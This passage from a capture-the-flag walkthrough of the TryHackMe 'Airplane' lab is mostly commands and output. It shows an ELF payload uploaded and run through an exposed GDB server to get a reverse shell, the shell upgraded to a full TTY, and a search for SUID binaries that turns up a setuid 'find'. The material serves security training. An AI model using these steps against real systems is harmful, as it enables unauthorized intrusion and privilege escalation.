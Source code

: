 ```bash
Saved as: binary.elf

┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Airplane/Misc File]
└─$ chmod 755 binary.elf  
```

With the palyload set we can start a listener on our attack host.
```bash
┌──(pentester㉿kali)-[~/…/Challenge/Airplane/Scans/Web]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
```

We can now connect to the GDB server running on port 6048 and upload the payload. After uploading the payload we can execute it to gain a reverse shell on the target.
``` bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Airplane/Misc File]
└─$ gdb binary.elf
GNU gdb (Debian 15.1-1) 15.1
Copyright (C) 2024 Free Software Foundation, Inc.
<SNIP>

(gdb) target extended-remote 10.10.158.63:6048
<SNIP>
(gdb) remote put binary.elf /tmp/binary.elf
Successfully sent file "binary.elf".
(gdb) set remote exec-file /tmp/binary.elf
(gdb) run
The program being debugged has been started already.
<SNIP>
(gdb) 
```

When we go back to our listener we will see a reverse connection from the target. We can upgrade this simple shell to a complete TTY shell as shown below.
```bash
┌──(pentester㉿kali)-[~/…/Challenge/Airplane/Scans/Web]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.8.23.19] from (UNKNOWN) [10.10.158.63] 51906
python3 -c 'import pty;pty.spawn("/bin/bash")' 
hudson@airplane:/opt$ ^Z
zsh: suspended  nc -lvnp 1234

┌──(pentester㉿kali)-[~/…/Challenge/Airplane/Scans/Web]
└─$ stty raw -echo;fg                        
[1]  + continued  nc -lvnp 1234
                               export TERM=xterm
hudson@airplane:/opt$ 
```

After we have obtain a shell on the target we can enumerate SUID binaries on the target system.
```bash
hudson@airplane:/home/hudson$ find / -perm -4000 2>/dev/null
/usr/bin/find
/usr/bin/sudo
/usr/bin/pkexec
<SNIP>
hudson@airplane:/home/hudson$ ls -l /usr/bin/find
-rwsr-xr-x 1 carlos carlos 320160 Feb 18  2020 /usr/bin/find
```
